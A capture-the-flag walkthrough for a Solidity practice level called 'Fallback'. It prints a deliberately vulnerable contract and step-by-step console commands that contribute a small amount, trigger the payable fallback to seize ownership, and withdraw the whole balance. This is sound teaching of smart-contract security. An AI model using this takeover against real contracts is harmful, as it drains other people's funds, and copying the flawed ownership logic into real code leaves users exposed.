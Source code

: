 # Fallback

> Look carefully at the contract's code below.
> You will beat this level if
> 1. you claim ownership of the contract
> 2. you reduce its balance to 0

> Things that might help
> * How to send ether when interacting with an ABI
> * How to send ether outside of the ABI
> * Converting to and from wei/ether units -see help() command-
> * Fallback methods

```solidity
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public constant returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

In Solidity contracts, you can often not only call functions, but also call them paying some ether along the process, so the contract can decide what to do with it. Since contracts also have addresses on the blockchain, you can also pay them directly without calling a specific method. If you do the latter, the contract's fallback function is going to be called. There must be either a single fallback function per contract or no fallback function at all (in this case the contract will reject direct transactions sent to it). The fallback function is always the one without a name.

Note that, in this case, the function named Fallback is not the actual fallback function, but the contract's constructor (since it's named after the contract's name). The constructor is called a single time by the contract's creator upon creation.

To claim ownership of this contract, we have to set `owner` to our wallet address. This can be done one of the following ways:

1. Contributing more ether than the owner;
2. Contributing anything and calling the fallback function.

According to the constructor, the owner of the contract donates 1000 ether. The owner may even not donate 1000 ether upon creation of the contract, but it nevertheless stores his contribution as "1000 ether". Since the contribute function only allows the contributor to donate less than 0.001 ether per call, we'd need to call it at least 1000001 times to donate more than the owner's 1000 ether. This isn't practical at all, although possible in theory, ruling out option 1.

Option 2 seems easier, so let's do it. Request a level instance, wait until it's processed and run:
```javascript
contract.contribute({value: toWei(0.0005)})
```

Note we're using toWei because we need to express 0.0005 as wei (an integer unit for ether).
Now call getContribution() to check whether it went through:
```javascript
fromWei((await contract.getContribution()).toNumber())
```

Send some ether to trigger the fallback function and become the owner:
```javascript
contract.sendTransaction({value: toWei(0.01)})
```

Verify you've become the owner:
```javascript
await contract.owner() == player
```

Now steal the funds by running:
```javascript
contract.withdraw()
```
You couldn't call this function before because it's tagged with the `onlyOwner` modifier.

Submit the instance back to the level and you shall see the first "level completed" message after a minute or two.
